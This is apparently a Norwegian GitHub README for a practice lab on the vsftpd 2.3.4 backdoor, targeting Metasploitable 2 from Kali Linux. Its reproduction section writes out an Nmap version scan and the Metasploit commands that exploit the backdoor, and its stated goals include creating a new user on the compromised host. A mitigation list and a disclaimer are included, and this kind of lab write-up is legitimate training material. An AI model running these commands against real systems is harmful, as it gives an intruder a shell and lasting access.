




# vsftpd 2.3.4 backdoor — lab

Fiktiv, kontrollert øvingslab: identifisere sårbar **vsftpd 2.3.4**, utnytte med Metasploit og verifisere shell.  
> **Ansvarsfraskrivelse:** Kun i lab/demo. Ikke forsøk mot systemer du ikke eier eller har eksplisitt tillatelse til.

## Mål
- Finne FTP-versjon (Nmap)
- Utnytte backdoor (Metasploit)
- Opprette ny bruker og verifisere innlogging

## Miljø (kort)
- Angriper: Kali Linux  
- Mål: Metasploitable 2 (lokalt labnett)  
- Verktøy: Nmap, Metasploit

## Evidens (sett inn skjermbilder senere)
**1) Versjonsidentifikasjon**


**2) Utnyttelse og shell**


**3) Opprette bruker**
")

**4) Innlogging etter restart**


## Reproduser (eksempelkommandoer)
```bash
# 1) Oppdagelse
nmap -sV -p 21 192.168.x.x

# 2) Metasploit (kort)
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.x.x
run
```

## Mitigasjoner (kort)
- Fjern/oppgrader sårbar tjeneste
- Reduser angrepsflate (steng ubrukte porter)
- Patchrutiner, IDS/IPS-signaturer

## Vedlegg (ekstra)

**Metasploit – banner**


**Metasploit – modulsøk etter vsftpd**


**Nmap – full scan**


## Lisens
MIT
